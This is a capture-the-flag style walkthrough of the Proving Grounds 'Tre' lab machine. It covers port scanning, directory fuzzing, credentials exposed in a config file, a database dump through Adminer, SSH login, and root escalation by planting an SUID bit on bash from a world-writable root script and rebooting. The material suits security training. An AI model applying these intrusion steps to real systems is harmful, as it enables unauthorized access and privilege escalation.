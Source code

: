 # PG Play - Tre

#### Ip: 192.168.199.84
#### Name: Tre
#### Difficulty: Intermediate
#### Community Rating: Hard

----------------------------------------------------------------------

### Enumeration

Lets scan the target using Nmap. Here I will use the `-p-` flag to scan all TCP ports, as well as the `-sC` and `-sV` flags to use basic scripts and to enumerate versions:

```text
┌──(ryan㉿kali)-[~/PG/Tre]
└─$ sudo nmap -p-  --min-rate 10000 192.168.199.84 -sC -sV 
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-20 14:15 CDT
Nmap scan report for 192.168.199.84
Host is up (0.11s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 991aead7d7b348809f88822a14eb5f0e (RSA)
|   256 f4f69cdbcfd4df6a910a8105defa8df8 (ECDSA)
|_  256 edb9a9d72d00f81bd399d602e5ad179f (ED25519)
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Tre
|_http-server-header: Apache/2.4.38 (Debian)
8082/tcp open  http    nginx 1.14.2
|_http-title: Tre
|_http-server-header: nginx/1.14.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.70 seconds
```

Heading to the site on port 80 we find just an image:

![site.png](../assets/tre_assets/site.png)

If we kick off some directory fuzzing with Feroxbuster using:

```text
┌──(ryan㉿kali)-[~/PG/Tre]
└─$ feroxbuster --url http://192.168.199.84 -q -x php
```

We find some mantisbt directories. The `/config` directory seems especially interesting:

![mantis.png](../assets/tre_assets/mantis.png)

Heading to the page we find an index of files:

![index.png](../assets/tre_assets/index.png)

CLicking into `a.txt` we find some DB credentials. 

![creds.png](../assets/tre_assets/creds.png)

Trying these on the mantisbt page however, we find they are no good there:

![nope.png](../assets/tre_assets/nope.png)

Looking back at our running Feroxbuster scan, we see it has picked up an `/adminer.php` page:

![adminer.png](../assets/tre_assets/adminer.png)

Lets try the DB credentials we discovered earlier here:

![login.png](../assets/tre_assets/login.png)

Nice that worked:

![in.png](../assets/tre_assets/in.png)

In the SQL Command area of the page we can begin enumerating the database. After discovering a `mantis_user_table` I ran `select * from mantis_user_table` and discovered some more credentials:

![sql.png](../assets/tre_assets/sql.png)

Tre's 'realname' looks a bit like a password. Lets try it using SSH:

```text
┌──(ryan㉿kali)-[~/PG/Tre]
└─$ ssh tre@192.168.199.84                                
The authenticity of host '192.168.199.84 (192.168.199.84)' can't be established.
ED25519 key fingerprint is SHA256:1ZfYO3DGJA+iL5+oiLgoa4kQETeZ48YhrRrPnTvJb3A.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.199.84' (ED25519) to the list of known hosts.
tre@192.168.199.84's password: 
Linux tre 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2 (2020-04-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
tre@tre:~$ whoami
tre
```

Cool, that worked! We can now grab the local.txt flag:

![user_flag.png](../assets/tre_assets/user_flag.png)

### Privilege Escalation

Running `sudo -l` to check Tre's permissions for sudo we see he can execute `shutdown`. Interesting.

```text
tre@tre:$ sudo -l
Matching Defaults entries for tre on tre:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User tre may run the following commands on tre:
    (ALL) NOPASSWD: /sbin/shutdown
``` 

Lets also load up LinPEAS to help out with more enumeration:

![transfer.png](../assets/tre_assets/transfer.png)

Linpeas finds that check-system is writable. We may be able to exploit this.

![check.png](../assets/tre_assets/check.png)

Double checking the permissions, we see it is owned by root but we have the ability to read and write to it:

```text
tre@tre:/usr/bin$ ls -la check-system
-rw----rw- 1 root root 135 May 12  2020 check-system
```

If we add the SUID bit to `/bin/bash` and then restart the machine using `sudo shutdown` when the machine reboots we should be able to easily get the root flag:

![nano.png](../assets/tre_assets/nano.png)

We can then shutdown the machine:

```text
tre@tre:/usr/bin$ sudo shutdown -r now
tre@tre:/usr/bin$ Connection to 192.168.199.84 closed by remote host.
Connection to 192.168.199.84 closed
```

Now if we SSH back in again we can run `/usr/bin/bash -p` and we will escalate to a root shell:

```text
┌──(ryan㉿kali)-[~/PG/Tre]
└─$ ssh tre@192.168.199.84
tre@192.168.199.84's password: 
Linux tre 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2 (2020-04-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Sep 20 15:39:31 2023 from 192.168.45.246
-bash-5.0$ whoami
tre
-bash-5.0$ /usr/bin/bash -p
bash-5.0# whoami
root
bash-5.0# id
uid=1000(tre) gid=1000(tre) euid=0(root) egid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),1000(tre)
```

We can now grab the final flag:

![root_flag.png](../assets/tre_assets/root_flag.png)

Thanks for following along!

-Ryan

----------------------------------------------







